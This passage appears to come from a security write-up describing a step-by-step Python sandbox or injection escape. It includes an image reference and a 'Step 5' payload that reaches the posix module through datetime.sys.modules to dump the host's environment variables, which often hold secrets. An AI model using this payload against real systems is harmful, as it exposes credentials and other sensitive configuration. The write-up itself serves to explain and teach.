 <img src="images/image_4.png" alt="Step 4 - POSIX module verification" width="600">

### Step 5: Environment Variable Access

Access OS environment variables through `posix.environ`:

**Payload:** `str(datetime.sys.modules.get("posix").environ)`  
**Result:** Dictionary of environment variables
